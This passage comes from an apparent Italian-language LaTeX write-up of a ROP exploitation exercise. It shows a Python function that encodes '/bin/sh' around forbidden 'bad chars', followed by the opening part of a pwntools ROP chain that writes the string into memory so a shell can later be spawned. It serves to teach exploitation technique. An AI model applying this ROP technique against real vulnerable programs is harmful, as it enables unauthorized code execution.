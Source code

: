 ``\texttt{\textbf{b}}'', ``\texttt{\textbf{h}}'', ``\texttt{\textbf{i}}'', ``\texttt{\textbf{n}}'', ``\texttt{\textbf{s}}''.\\
Come spiegato nella dimostrazione dell'attacco, per eseguire una \textit{shell} è necessario \hyperref[shell-reg]{popolare i registri corretti}, tuttavia uno di questi richiede esplicitamente un puntatore alla 
stringa ``\textbf{/bin/sh\textbackslash00}'', di cui ogni carattere apparteneva a quelli considerati \textbf{bad chars} dal codice, risultando quindi impossibili da essere inseriti direttamente.
\\A tale scopo, fu creata allora una funzione che modificasse la stringa così da non contenere nessuno di essi:\\
\begin{lstlisting}[language=Python, label=str-stransform, caption={funzione dell'exploit che trasforma la stringa utile in una senza caratteri considerati \textbf{bad chars}.}, style =Python]
def make_good_str(bad_str, badchars) :                # trasforma stringa 
    
    good_str = ""                                     
    for c in bad_str :  
        while c in badchars :
            c = chr(ord(c) - 1)                       # c diviene carattere precedente
        good_str += c                                                     
    return good_str      

good_str = make_good_str("/bin/sh\x00", "bin/sh")     # chiamata per exploit
\end{lstlisting}
Dopo aver chiamato tale funzione e aver ottenuto la stringa trasformata, venne creata la \textbf{ROP chain}.\\ 
La prima parte prevedeva l'inserimento in memoria proprio di tale stringa appena ottenuta:
\begin{lstlisting}[language=Python, label=ROP-inmemory, caption={Prima porzione di \textbf{ROP chain} per inserimento in memoria.}, style =Python]
rop = ROP(elf)                            # creazione oggetto ROP di pwntools
rop.raw(pop_r12_r13)                      # pop r12; pop r13; pop r14; pop r15; ret;
rop.raw(good_str)                         # stringa trasformata in r12 = ".agm.rg\x00"   
rop.raw(where_to_write)                   # r13 = .data idx
rop.raw(p64(0x01))                        # r14 = 0x01
rop.raw(where_to_write)                   # r15 = .data idx -> "/bin/sh\x00"
rop.raw(mov_mmr13_r12)                    # mov [r13], r12; ret;

\end{lstlisting}
